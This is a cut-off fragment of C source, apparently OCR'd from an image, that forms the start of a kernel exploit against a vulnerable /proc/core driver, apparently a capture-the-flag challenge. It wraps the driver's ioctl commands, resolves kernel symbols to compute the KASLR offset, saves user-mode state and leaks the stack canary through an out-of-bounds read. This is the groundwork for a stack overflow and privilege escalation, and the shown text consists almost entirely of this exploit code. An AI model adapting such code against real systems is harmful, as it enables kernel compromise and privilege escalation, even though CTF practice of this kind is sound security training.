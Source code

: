 ```C
{

	printf("[*]set off to %ld\n", idx);

	ioctl(fd, 0x6677889C, idx);

}



void core_read(int fd, char *buf)

{

	puts("[*]read to buf.");

	ioctl(fd, 0x6677889B, buf);



}



void core_copy_func(int fd, long long size)

{

	printf("[*]copy from user with size: %ld\n", size);

	ioctl(fd, 0x6677889A, size);

}





int main(void)

{

	find_symbols();

	size_t offset = vmlinux_base - raw_vmlinux_base;

	save_status();



	int fd = open("/proc/core",O_RDWR);

	set_off(fd, 0x40);

	size_t buf[0x40/8];

	core_read(fd, buf);

	size_t canary = buf[0];

	printf("[*]canary : %p\n", canary);


```